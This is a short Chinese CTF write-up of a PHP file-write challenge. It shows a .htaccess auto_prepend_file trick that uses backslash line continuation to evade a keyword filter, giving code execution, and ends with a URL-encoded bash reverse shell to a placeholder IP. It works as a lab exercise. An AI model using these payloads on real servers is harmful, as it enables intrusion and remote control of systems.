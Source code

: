![[Pasted image 20230226142322.png|500]]

```php
 <?php
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    if(!isset($_GET['content']) || !isset($_GET['filename'])) {
        highlight_file(__FILE__);
        die();
    }
    $content = $_GET['content'];
    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
        echo "Hacker";
        die();
    }
    $filename = $_GET['filename'];
    if(preg_match("/[^a-z\.]/", $filename) == 1) {
        echo "Hacker";
        die();
    }
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    file_put_contents($filename, $content . "\nHello, world");
?> 
```

可以写入文件，虽然会删除`index.php`之外的文件，但是不访问`index.php`就能一直留着

```
/?filename=info.php&content=<?php phpinfo();?>
```

```
/info.php
```

![[Pasted image 20230226142803.png]]

并没有被解析

尝试直接往`index.php`写入

```
/?filename=index.php&content=<?php phpinfo();?>
```

莫得用

尝试往`.htaccess`写入，同时利用`.htaccess`的反斜杠续行绕过关键词检测

```
/?filename=.htaccess&content=php_value auto_prepend_fi\
le .htaccess
#<?php phpinfo();?>
#\
```

url编码

```
/?filename=.htaccess&content=php_value+auto_prepend_fi%5C%0D%0Ale+.htaccess%0D%0A%23%3C%3Fphp+phpinfo()%3B%3F%3E%0D%0A%23%5C
```

![[Pasted image 20230226151014.png|800]]

同理可弹shell

```
/?filename=.htaccess&content=php_value auto_prepend_fi\
le .htaccess
#<?php system('bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1"');?>
#\
```

url编码

```
/?filename=.htaccess&content=php_value+auto_prepend_fi%5C%0D%0Ale+.htaccess%0D%0A%23%3C%3Fphp+system(%27bash+%2Dc+%22bash+%2Di+%3E%26+%2Fdev%2Ftcp%2Fxxx.xxx.xxx.xxx%2F2333+0%3E%261%22%27)%3B%3F%3E%0D%0A%23%5C
```

![[Pasted image 20230226154124.png|800]]

#Web #PHP #htaccess #RCE #reverse_shell